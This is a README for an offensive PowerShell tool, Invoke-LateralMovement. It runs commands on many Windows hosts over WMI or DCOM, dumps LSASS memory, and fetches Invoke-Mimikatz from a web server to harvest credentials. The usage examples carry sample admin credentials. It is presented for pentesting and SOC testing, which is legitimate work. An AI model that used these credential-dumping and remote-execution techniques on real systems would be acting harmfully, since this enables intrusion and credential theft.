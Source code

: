 # Coded by Jesse Nebling (@bashexplode)
A tool for novice pentesters that are not familiar with built-in Windows commands.

#### Description:
Wrapper to run a single command on multiple machines via wmic or DCOM with a single set of user credentials. This script can also perform procdump, perform Out-Minidump, or perform Invoke-Mimikatz -DumpCreds and pull the results to your machine from a single or multiple machines. This may be used to test a SOC or SIEM tool with multiple logins to multiple machines. 

YOU MUST HAVE procdump.exe ON YOUR LOCAL MACHINE TO USE THE -ProcDump SWITCH (https://download.sysinternals.com/files/Procdump.zip), if you have an internet connection -DownloadProcDump may be used. 

TO USE THE -InvMkatz OR -MKatz SWITCHES YOU MUST HAVE THE Invoke-Mimikatz.ps1 SCRIPT HOSTED ON A WEB SERVER (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

TO USE -MMCCommand you must currently be in a runas session as a user that has local admin on the remote host

#### License:

This script is under the [BSD 3-Clause license](https://raw.githubusercontent.com/bashexplode/Invoke-LateralMovement/master/LICENSE).

#### Usage:
.EXAMPLE  
Perform ping back to 10.0.0.5 on a single host:  
Invoke-LateralMovement -HostName 10.0.0.2 -WmiCommand -UserName AdminUser -Password P@55w0rd -Domain CORP -IP 10.0.0.5

Perform ping back to 10.0.0.5 on multiple hosts:  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -WmiCommand -UserName AdminUser -Password P@55w0rd -Domain CORP -IP 10.0.0.5

.EXAMPLE  
Open up notepad.exe on a single host with the -CustomCommand flag  
Invoke-LateralMovement -HostName 10.0.0.2 -WmiCommand -UserName AdminUser -Password P@55w0rd -Domain CORP -CustomCommand "cmd.exe /c notepad.exe"

.EXAMPLE  
Perform "vssadmin list shadows" on a single host with the -CustomCommand flag and receive the results with the -Server flag  
Invoke-LateralMovement -HostName 10.0.0.2 -WmiCommand -UserName AdminUser -Password P@55w0rd -Domain CORP -CustomCommand "cmd.exe /c vssadmin list shadows" -Server

-----------------------------

.EXAMPLE  
Perform ping back to 10.0.0.5 on a single host:  
Invoke-LateralMovement -HostName 10.0.0.2 -MMCCommand -IP 10.0.0.5

Perform ping back to 10.0.0.5 on multiple hosts:  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -MMCCommand -IP 10.0.0.5
